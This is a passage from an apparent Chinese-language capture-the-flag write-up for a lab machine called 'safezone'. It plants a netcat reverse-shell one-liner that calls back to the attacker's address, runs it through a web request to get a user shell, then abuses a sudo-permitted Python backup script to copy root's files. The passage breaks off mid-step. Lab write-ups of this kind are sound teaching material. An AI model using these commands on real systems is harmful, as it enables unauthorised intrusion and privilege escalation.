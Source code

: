 从源代码 pentest.php，

![](img/9885877be81e58be364e12467c29efa8.png)

所以我们不能从页面运行反向 shell。由于我们有访问用户“文件”的权限，创建一个包含反向外壳的可执行外壳

```
# echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.X.X 1993 >/tmp/f" > ~/givemeaccess
# chmod +x ~/givemeaccess
# chmod 777 ~/givemeaccess
```

通过请求发送`/home/files/givemeaccess`，现在我们获得了对`yash`用户的访问权。快速检查权限，

```
# sudo -l
Matching Defaults entries for yash on safezone:env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpassUser yash may run the following commands on safezone:(root) NOPASSWD: /usr/bin/python3 /root/bk.py
```

为 python 运行 sudo 只针对文件 bk.py，让我们试试吧，

```
sudo python3 /root/bk.py
Enter filename: /root/*
Enter destination: /home/yash/testing/
Enter password: abcd
```

让我们看看，
